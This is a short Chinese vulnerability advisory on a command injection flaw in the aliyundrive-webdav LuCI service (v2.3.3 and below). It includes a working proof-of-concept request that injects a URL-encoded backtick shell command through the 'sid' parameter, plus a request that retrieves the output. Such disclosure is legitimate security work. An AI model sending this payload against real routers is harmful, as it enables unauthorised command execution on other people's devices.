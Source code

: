 **漏洞名称**

aliyundrive-webdav 命令注入漏洞

02

**漏洞影响**

aliyundrive-webdav v.2.3.3及以下版本

开源地址

https://github.com/messense/aliyundrive-webdav

03

**漏洞描述**

阿里云盘 WebDAV 服务，主要使用场景为配合支持 WebDAV 协议的客户端 App 如 Infuse、nPlayer 等实现在电视上直接观看云盘视频内容， 支持客户端 App 直接从阿里云盘获取文件播放而不经过运行本应用的服务器中转, 支持上传文件，但受限于 WebDAV 协议不支持文件秒传。该系统v.2.3.3及以下版本存在漏洞，容易受到命令注入攻击。

**漏洞复现**

第一步，注入命令ls />/www/123.txt

```yaml
GET /cgi-bin/luci/admin/services/aliyundrive-webdav/query?sid=%60%6c%73%20%2f%3e%2f%77%77%77%2f%31%32%33%2e%74%78%74%60 HTTP/1.1
Host: 192.168.32.129
Cookie: sysauth=41273cb2cffef0bb5d0653592624cf64
Sec-Ch-Ua: "Chromium";v="122", "Not(A:Brand";v="24", "Microsoft Edge";v="122"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.0.0 Safari/537.36 Edg/122.0.0.0
Sec-Ch-Ua-Platform: "Windows"
Accept: */*
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://192.168.32.129/cgi-bin/luci/admin/services/aliyundrive-webdav/client
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Connection: close

```

```yaml

GET /123.txt HTTP/1.1
Host: 192.168.32.129
Cookie: sysauth=41273cb2cffef0bb5d0653592624cf64
Sec-Ch-Ua: "Chromium";v="122", "Not(A:Brand";v="24", "Microsoft Edge";v="122"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.0.0 Safari/537.36 Edg/122.0.0.0
Sec-Ch-Ua-Platform: "Windows"
Accept: */*
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://192.168.32.129/cgi-bin/luci/admin/services/aliyundrive-webdav/client
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Connection: close

```

**修复建议**



升级到最新版本。